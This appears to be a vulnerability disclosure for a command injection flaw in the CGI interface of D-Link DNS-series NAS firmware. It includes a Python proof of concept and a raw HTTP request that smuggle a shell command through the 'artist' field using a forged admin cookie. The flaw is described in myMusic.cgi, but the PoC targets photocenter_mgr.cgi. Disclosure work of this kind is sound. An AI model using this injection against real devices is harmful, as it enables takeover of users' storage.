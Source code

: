 # Overview
Firmware download website:
 [https://ftp.dlink.ru/pub/NAS/](https://ftp.dlink.ru/pub/NAS/)

# Affected version
DLINK DNS-320/320L/321/323/325/327L all versions of the firmware
# Vulnerability details
The DLINK nas DNS-320/320L/321/323/325/327L  all firmware version has a command injection vulnerability in cgi_create_playlist function of the file /cgi-bin/myMusic.cgi.  The variable `artist`is passed from a POST request and is assigned to `v14` via the `sprintf` function at line 89  and invoked by the `system` command,  the `SpecSymbol2BackSlash` function did not work  which leads to command execution.

![image.png](https://cdn.nlark.com/yuque/0/2024/png/2771021/1723707717652-0377e2fa-8198-467b-b77a-7192c516e1a8.png#averageHue=%23fdfdfd&clientId=ud48b7066-625b-4&from=paste&height=456&id=u524cad3d&originHeight=1011&originWidth=883&originalType=binary&ratio=1&rotation=0&showTitle=false&size=124828&status=done&style=none&taskId=u58291e30-03da-4649-8cc7-525e728d5d5&title=&width=398)
![image.png](https://cdn.nlark.com/yuque/0/2024/png/2771021/1723707672017-c7abfcfc-163f-4bfc-90d2-b9613d53d74b.png#averageHue=%23fefdfc&clientId=ud48b7066-625b-4&from=paste&height=198&id=uc1765329&originHeight=417&originWidth=923&originalType=binary&ratio=1&rotation=0&showTitle=false&size=31746&status=done&style=none&taskId=uaee1a3d9-ab9a-4c2e-8b79-6ec69e39ef1&title=&width=438)



# POC
```python
import requests

url = "http://192.168.0.32/cgi-bin/photocenter_mgr.cgi"
headers = {
    "Host": "192.168.0.32",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0",
    "Accept": "application/json, text/javascript, */*; q=0.01",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate",
    "Content-Type": "application/x-www-form-urlencoded",
    "X-Requested-With": "XMLHttpRequest",
    "Origin": "http://192.168.0.32",
    "Connection": "close",
    "Referer": "http://192.168.0.32/photo_center/index.html",
    "Cookie": "username=admin",
    "Priority": "u=1"
}

data = "cmd=cgi_create_playlist&ptype=11&album=1&user=photos&idx=10&artist=%0atouch%09/tmp/999%0a&genre=10&date=19&album_name=/tmp/"
response = requests.post(url, headers=headers, data=data)
print(response.text)

```

```
POST /cgi-bin/photocenter_mgr.cgi HTTP/1.1
Host: 192.168.0.32
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 110
Origin: http://192.168.0.32
Connection: close
Referer: http://192.168.0.32/photo_center/index.html
Cookie: username=admin
Priority: u=1

cmd=cgi_create_playlist&ptype=11&album=1&user=photos&idx=10&artist=%0atouch%09/tmp/999%0a&genre=10&date=19&album_name=/tmp/
```


